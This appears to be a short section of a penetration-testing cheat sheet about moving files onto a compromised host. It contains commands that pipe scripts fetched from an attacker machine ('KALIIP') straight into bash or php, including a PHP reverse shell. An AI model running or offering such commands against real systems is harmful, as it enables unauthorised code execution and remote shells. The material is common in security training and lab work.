 # Transferring Files

This section could easily be put in the post-exploitation section. But I consider this knowledge so fundamental that I chose to put it here.



## Giant file transfer, can't transfer over network

```
base64 file
highlight beginning, hit enter to copy to bottom, ctrl+c, paste
base64 -d pastedfile
md5sum both to ensure accurate completion
```

# Quick file transfer & execute scripts

```
on attack
python -m SimpleHTTPServer 8080

on target
curl KALIIP:8080/LinEnum.sh | bash
LinEnum as example

```

```
Quick shell

on target
curl http://KALIIP/php-reverse-shell.php | php
```




